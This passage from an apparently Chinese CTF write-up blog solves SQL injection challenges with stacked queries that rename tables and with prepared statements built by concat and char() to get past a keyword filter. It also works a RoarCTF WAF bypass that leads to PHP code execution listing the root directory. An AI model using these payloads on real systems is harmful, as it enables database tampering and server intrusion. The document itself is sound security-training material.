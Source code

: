 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020942.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_310e7e5b6178d475b4a969289073724a.jpg)

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020948.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_b60311754f522764ebac96573f46f15c.jpg)
 **注意，此处的表名1919\*需要加反引号，推测是关键字冲突或者数据类型的原因。**
 根据两张表的结构，猜测很有可能直接在输入框中进行的查询就是在words表中的，而真正的flag就在1919表中。
 因此我们可以直接修改两张表的名字，使得直接查询就是查询的1919表中的flag。
 此处需要注意的是，输入框默认查询的是words中的id列，但1919表中没有该列，因此只需要修改任意列为id或者增添一列为id即可。

```
?inject=1';rename table words to ttt; rename table `1919810931114514` to words; alter table words change flag id varchar(10) not null;%23
```

### 方法2

> 考点：sql语句预编译

由题目知道题目是过滤了select等关键字的，因此可以用预编译+concat绕过。
 此处提供几个payload:

```
?inject=1';PREPARE test from concat('se','lect',' * from `1919810931114514`');EXECUTE test; %23
?inject=1';SET @sql=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE test from @sql;EXECUTE test;%23
?inject=1';PREPARE test from concat(char(115,101,108,101,99,116),'* from `1919810931114514`');EXECUTE test;%23
```

## [极客大挑战 2019]Http

> 考点：http
> 注意X-Forwarded-For字段，用来标识连接到web服务器请求的ip地址。

## [RoarCTF 2019]Easy Calc

> 考点：
> waf的绕过
> php特殊字符的绕

首先查看源代码，发现网页开启了waf：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020958.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_1b3d351c3941779e69d6dcbb8d521261.jpg)
 发现网页是对get方法传入的参数进行URL编码，然后传递给calc.php进行处理。
 查看calc.php发现有代码：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817021001.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_2285cf7cc08f41e4914448f77cfdc88e.jpg)
 代码审计，发现过了了很多，然后直接有代码执行。
 想扫描目录文件，但是发现有过滤，因此用chr函数绕过：

```
?num=1;var_dump(scandir(chr(47)))
```

